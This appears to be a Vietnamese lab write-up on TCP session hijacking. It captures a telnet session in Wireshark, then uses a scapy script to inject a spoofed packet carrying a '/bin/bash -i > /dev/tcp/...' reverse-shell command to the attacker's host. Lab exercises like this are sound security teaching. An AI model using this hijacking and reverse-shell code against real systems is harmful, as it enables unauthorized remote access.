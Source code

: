 - Đầu tiên mở `wireshark` để bắt gói tin 
- Sau đó thực hiện kết nối `telnet` từ `user1` đến `victim`

    ![](https://i.imgur.com/fbAcEc9.png)

- Tiếp đến thực hiện trích xuất các thông tin từ gói tin `wireshark` 

    ![](https://i.imgur.com/9rb3rUJ.png)

- Và thực hiện đoạn code như sau :

    ```python
    #!/usr/bin/python3
    import sys
    from scapy.all import *

    IPLayer = IP(src="10.9.0.6", dst="10.9.0.5")
    TCPLayer = TCP(sport=41054, dport=23, flags="A",seq=2731888097, ack=3276680965)
    Data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090\r"
    pkt = IPLayer/TCPLayer/Data
    ls(pkt)
    send(pkt,verbose=0)

    ```
- Và thực hiện đoạn code này ở terminal attacker thì ta đã có thể có được shell 

    ![](https://i.imgur.com/Ialzrzr.png)

     Vây là ta đã có thể tạo reverse shell bằng TCP session hijacking. Và hoàn thành xong bài lab.

